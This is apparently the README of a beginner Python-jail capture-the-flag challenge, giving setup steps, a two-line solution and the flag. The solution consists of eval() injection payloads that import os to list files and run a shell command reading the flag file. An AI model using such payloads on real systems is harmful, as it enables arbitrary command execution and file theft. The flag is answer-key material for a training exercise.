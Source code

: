 # PyJail-Intro 1

### Difficulty: Beginner
### Objective: `eval()`

## Setting Up
Install both the `pyjail.py` and `flag-afd3ca89be90859c70e89a903f09f9fb.txt` files into the same directory. Then, just execute the python script to start the challenge. 


## Solution

`__import__('os').listdir('.')`

`__import__('os').system('cat flag-afd3ca89be90859c70e89a903f09f9fb.txt')`

### Flag 
>flag{93da9b115c23778dafd95da03f642d48}
